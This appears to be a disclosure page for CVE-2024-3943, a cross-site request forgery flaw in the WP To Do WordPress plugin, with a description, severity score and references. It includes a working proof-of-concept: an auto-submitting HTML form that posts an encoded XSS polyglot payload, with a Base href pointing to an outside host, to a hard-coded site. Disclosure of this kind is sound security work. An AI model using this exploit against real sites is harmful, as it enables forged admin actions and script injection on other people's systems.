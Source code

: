 ```yaml
---
layout: page
title: CVE-2024-3943
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_addcomment
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_addcomment function. This makes it possible for unauthenticated attackers to add comments to to do items via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=wp-todo&view=3" method="POST">
      <input type="hidden" name="wptodo&#95;comment&#95;author" value="1" />
      <input type="hidden" name="wptodo&#95;comment&#95;task" value="1" />
      <input type="hidden" name="wptodo&#95;comment&#95;body" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wptodo&#95;comment&#95;submit" value="Add" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L225
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-addcomment





